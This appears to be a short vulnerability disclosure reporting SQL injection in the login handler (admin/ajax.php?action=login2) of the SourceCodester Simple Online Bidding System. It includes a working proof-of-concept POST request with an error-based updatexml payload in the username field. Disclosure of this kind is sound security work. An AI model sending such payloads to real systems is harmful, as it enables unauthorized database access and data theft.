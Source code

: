 ## Sourcecoster simple online bidding system has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability file
/simple-online-bidding-system/bidding/admin/ajax.php?action=login2

## Vulnerability analysis
<img width="862" alt="image" src="https://github.com/user-attachments/assets/720b3f36-dc76-4e70-a43c-9d09ed9fb135">
<img width="1020" alt="image" src="https://github.com/user-attachments/assets/10b7dbe9-4208-49f8-9a9b-d6601b30de93">

## describe
There is an unrestricted SQL injection attack in the simple online bidding system, and the controllable parameter is username. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /simple-online-bidding-system/bidding/admin/ajax.php?action=login2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/bidding/admin/login.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=admin'%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q&password=a
```

<img width="1086" alt="image" src="https://github.com/user-attachments/assets/64035e90-17e2-4b35-aa99-48805561783e">







